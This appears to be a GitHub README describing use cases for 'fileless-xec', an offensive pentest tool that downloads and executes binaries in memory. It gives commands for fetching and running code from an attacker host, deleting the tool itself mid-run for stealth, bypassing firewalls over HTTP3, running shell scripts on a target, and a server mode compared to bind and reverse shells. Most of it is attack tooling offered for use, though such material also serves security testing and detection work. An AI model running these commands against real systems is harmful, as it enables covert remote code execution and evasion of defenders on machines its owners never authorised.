 # `fileless-xec` use cases and examples


 - [`curl | sh` for binaries](#curl--sh-for-binaries)
 - [Execute binary with stdout/stdin](#execute-binary-with-stdoutstdin)
 - [Execute binary with arguments](#execute-binary-with-arguments)
 - [`fileless-xec` self remove](#fileless-xec-self-remove)
 - ["Remote go": execute go binaries without having go installed locally](#remote-go-execute-go-binaries-without-having-go-installed-locally)
 - [Bypass firewall with HTTP3](#bypass-firewall-with-http3)
 - [Execute a shell script](#execute-a-shell-script)
 - [`fileless-xec` server mode](#fileless-xec-server-mode)
 - [`fileless-xec` on windows](#fileless-xec-on-windows)

## `curl | sh` for binaries

This is the basic use case for `fileless-xec`. It enables us to run a remote binary without dropping it on disk:
```shell
fileless-xec [binary_url]
```

## Execute binary with stdout/stdin

`fileless-xec` is able to execute binaries with stdout and stdin. There isn't any special configuration or flag to make it works

## Execute binary with arguments

You can also passed arguments to your binary:
```
fileless-xec [binary_url] -- [flags_and_values_for_the_binary]
```

## `fileless-xec` self remove

On linux, you could remove `fileless-xec`from disk during its execution. This a step further for stealthiness:
```
fileless-xec --self-remove [binary_url]
```

## "Remote go": execute go binaries without having go installed locally

### Pre-requisites

* Attacker machine: 
  * go installed
* Target machine:
  * `fileless-xec`


If you want to run some go code on machine where go is not installed and you don't want to install it:

* For stealthiness reason (in a pentest, the less we install the better)
* For idleness orquickness reason

You will build your go on attacker machine, and use `fileless-xec` to execute it on target machine.

Of course, this use case is applicable for every program language that provides toolchains to make binaries (ex C/C++)

## Bypass firewall with HTTP3

See [HTTP3 - README](https://github.com/ariary/fileless-xec#http3quic) for explanation about the benefit of HTTP3 (spoil: bypass fw):

On attacker machine, set up HTTP3 server:
```bash
./example/http3/genkey.sh
go build light-server.go
./light-server  # launch on port 6121
```

On target machine, tell that you want to use http3:
```
fileless-xec --http3 https://[attacker_ip]:6121/[binary_name]
```

## Execute a shell script

If you are tired of running binaries.. and you want to run shell. This is a workaround example.

1. Transform your script in go code: (delete line `#!/bin/bash` and avoid `"`)

```
go build ./example/shell/generate.go
./generate myscript.sh
```

2. Compile it:

 ```
 go build nestedscript.go
 ```

3. Classicaly execute it on target
```
fileless-xec  [binary_url]
```

## `fileless-xec` server mode

This feature provide  another type of interaction between target and attacker machine:
target machine would have a server (upload binaries server) and attacker machine will send the binary ( trough http, http3, ...) to the server. Once the binary file received the target machine execute it as usual.

We change the connection direction between the 2 machines. As bind shell/reverse shell, it is useful to have both possibilities to adapt to the different possible network permissions



On target Launch the server:
```
fileless-xec server [port]
```

On Attacker machine send the binary to be executed:
* with curl: `curl -X POST -F "executable=@[BINARY_FILENAME]" http://[TARGET_IP:PORT]/upload`
* using client provide in example: 
```
#change url and port in ./example/client/client.go to the target machine ones
go build ./example/client/client.go
./client [BINARY_FILENAME]`
```

## `fileless-xec` on windows

You could alse use `fileless-xec` on windows.
Build `filess-xec.exe` with Makefile:
```
make windows.build.fileless-xec
```

Usage is the same except that it is less stealth as binaries are on disk and you can't self remove `fileless-xec` while execution. Meanwhile the binary is immediatly deleted after execution
